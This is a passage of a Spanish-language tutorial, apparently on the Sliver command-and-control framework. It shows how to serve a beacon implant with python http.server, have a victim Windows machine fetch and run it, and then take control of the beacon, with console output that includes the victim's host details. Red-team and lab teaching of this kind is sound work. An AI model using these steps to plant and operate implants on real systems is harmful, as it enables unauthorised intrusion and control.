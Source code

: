 ### mTLS Listerer

En este caso no es necesario configurar un servidor de escucha mTLS, dado que se configuró en [<mark style="color:green;">**sesiones mTLS Lister**</mark>](beacons-y-sesiones.md#mtls-listener).

### Deliver and execute

Para la entrega (deliver) y ejecución del malware, se seguirá usando el servidor `python -m http.server` en la carpeta donde se encuentra, el implante y luego en la maquina victima solo se tiene que descargar y ejecutar el implante.&#x20;

Finalmente, nuestra consola de python debería salir lo siguiente:

{% code overflow="wrap" %}
```bash
python -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
172.19.0.131 - - [27/Nov/2023 10:41:51] "GET /PLEASED_ATTIC.exe HTTP/1.1" 200 -
```
{% endcode %}

Los beacon como son asíncronos y tienen pedidos de conexión entre 1 a 5 segundos segund la configuración, a veces salga que la conexión fallado, deberían ver algo así: &#x20;

```bash
Beacon 33be5b78 PLEASED_ATTIC - 172.19.0.131:50281 (DESKTOP-V9TDLK0) - windows/amd64 - Mon, 27 Nov 2023 10:46:38 CST

sliver > beacons 

 ID         Name            Transport   Hostname          Username   Operating System   Last Check-In   Next Check-In 
========== =============== =========== ================= ========== ================== =============== ===============
 33be5b78   PLEASED_ATTIC   mtls        DESKTOP-V9TDLK0   pruiz      windows/amd64      4s              2s            

sliver > 
```

### Uso de beacons

Exactamente igual que en la sesiones, solo use el comando `use` seguido del nombre o id del beacon a usar, o dar el comando `use` y enter y selecione el beacon a usar:

{% code overflow="wrap" %}
```bash
sliver > use

? Select a session or beacon: BEACON  33be5b78  PLEASED_ATTIC  172.19.0.131:50281  DESKTOP-V9TDLK0  DESKTOP-V9TDLK0\pruiz  windows/amd64
[*] Active beacon PLEASED_ATTIC (33be5b78-f2da-407a-8faa-54965f38b989)

[server] sliver (PLEASED_ATTIC) > info

         Beacon ID: 33be5b78-f2da-407a-8faa-54965f38b989
              Name: PLEASED_ATTIC
          Hostname: DESKTOP-V9TDLK0
              UUID: 01404d56-834c-f66f-c549-e4f5869a9bd2
          Username: DESKTOP-V9TDLK0\pruiz
               UID: S-1-5-21-2629043924-2612844846-3487003113-1000
               GID: S-1-5-21-2629043924-2612844846-3487003113-513
               PID: 4792
                OS: windows
           Version: 10 build 19045 x86_64
            Locale: en-US
              Arch: amd64
```